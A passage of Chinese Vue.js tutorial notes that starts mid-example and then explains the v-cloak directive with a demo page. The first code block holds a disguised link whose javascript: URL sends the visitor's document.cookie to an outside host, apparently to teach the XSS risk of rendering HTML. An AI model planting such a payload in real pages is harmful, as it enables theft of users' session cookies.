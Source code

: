 ```js
	Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: '#root',
		data: {
			name: '尚硅谷',
			str: '<h3>你好啊！</h3>',
			str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
		}
	})
</script>
</html>
 
```

### v-cloak指令

```js
	v-cloak指令（没有值）：
		1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
		2.使用css配合v-cloak可以解决网速慢时页面展示出模板{{xxx}}的问题。
 
```

script引入的是我自制的server，作用是5s后script标签加载成功，注意script标签的的引入位置，是先执行html模板，5s后渲染页面{{name}}变为尚硅谷，想让{{name}}在5s内隐藏，不显示在页面中，script标签加载成功后直接出现尚硅谷，用v-cloak。

```js
<!DOCTYPE html>
<html>

<head>
	<meta charset="UTF-8" />
	<title>v-cloak指令</title>
	<style>
		[v-cloak] {
			display: none;
		}
	</style>
	<!-- 引入Vue -->
</head>

<body>
	<div id="root">
		<h2 v-cloak>{{name}}</h2>
	</div>
	<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>

<script type="text/javascript">
	console.log(1)
	Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
	new Vue({
		el: '#root',
		data: {
			name: '尚硅谷'
		}
	})
</script>
</html>
 
```

